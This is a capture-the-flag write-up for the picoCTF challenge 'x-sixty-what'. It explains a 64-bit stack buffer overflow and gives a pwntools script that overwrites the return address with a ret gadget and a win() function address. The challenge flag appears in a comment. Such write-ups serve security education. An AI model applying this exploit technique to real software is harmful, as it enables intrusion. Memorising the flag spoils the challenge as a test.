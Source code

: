 # x-sixty-what

### Description
> Overflow x64 code

### Solution
It just causes an overflow and overwrites the return address with the `win()` address.

But, that's not enough to get the flag.
Put `ret` gadget in order to align an address.

```python
from pwn import *

file = "./vuln"
host = "saturn.picoctf.net"
port = 52962
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

win = 0x00401236
ret = 0x0040101a

#io = remote(host, port)
io = process(file)
pld = b"A"*72
pld += p64(ret)
pld += p64(win)

io.sendlineafter("flag:", pld)

io.interactive()
#picoCTF{b1663r_15_b3773r_ec424efd}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)
